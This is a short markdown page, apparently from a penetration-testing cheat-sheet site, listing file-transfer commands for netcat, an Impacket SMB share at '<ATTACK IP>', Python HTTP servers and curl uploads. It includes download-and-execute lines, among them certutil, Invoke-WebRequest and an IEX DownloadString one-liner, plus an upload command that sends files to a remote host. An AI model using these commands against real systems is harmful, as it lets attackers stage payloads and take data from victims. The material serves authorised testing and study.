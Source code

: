 ```yaml
---
layout: default
title: File Transfer
nav_order: 6
---
```


# General
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

1. TOC
{:toc}

---

## Netcat

**Sending side**
```
nc -w 3 <ip> 1234 < in.file
```

**Recieving side**
```
nc -l -p 1234 > out.file
```

## SMB

**Sending side**
```
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py SHARENAME .
```

**Recieving Side**
### Execute directly

```
\\<ATTACK IP>\SHARENAME\file.exe
```

### Copy file to disk
```
copy \\<ATTACK IP>\SHARENAME\file.exe file.exe
```

### Put file onto SMB share
```
put \\<ATTACK IP>\SHARENAME file.exe
```

## SimpleHTTPServer / http.server

### Start server

#### Python2
```
python -m SimpleHTTPServer 8080
```

#### Python3
```
python3 -m http.server 8080
```

### Download
`wget http://<IP ADDRESS>/<file.exe>`

`certutil -URLCache -split -f "http://<IP ADDRESS>/<file.exe> <file.exe>"`

`powershell Invoke-WebRequest -Uri http://<IP ADDRESS>/<file.exe> -Outfile <file.exe>`

```
echo IEX(New-Object Net.WebClient).DownloadString('http://<IP ADDRESS>/<file.ps1>') | powershell -noprofile -
```

### Upload

`https://github.com/Tallguy297/SimpleHTTPServerWithUpload/blob/master/SimpleHTTPServerWithUpload.py`

```
curl -X POST -F file=@<path-to-file> http://\<host-ip\>:8000
```

